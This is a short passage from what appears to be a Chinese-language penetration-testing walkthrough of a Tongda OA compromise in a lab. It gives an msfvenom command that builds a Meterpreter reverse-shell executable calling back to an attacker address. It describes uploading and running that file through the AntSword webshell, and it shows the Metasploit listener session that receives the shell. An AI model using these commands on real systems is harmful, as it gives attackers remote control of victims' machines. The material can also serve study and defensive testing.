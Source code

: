 同时可以联动CS

```shell
msfvenom  -p  windows/x64/meterpreter/reverse_tcp LHOST=192.168.59.166 LPORT=4444 -f exe -o /home/kali/1.exe
```



生成的木马用中国蚁剑上传到Windows 7 目标机器

![](img/2022-01-18_17-55-03.png)



MSF开启监听  然后用蚁剑运行1.exe

```shell
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp

msf6 exploit(multi/handler) > set lhost eth0
lhost => 192.168.59.166
msf6 exploit(multi/handler) >run
```

通达OA 是系统权限，所以省去提权。

![](img/2022-01-18_19-12-25.png)

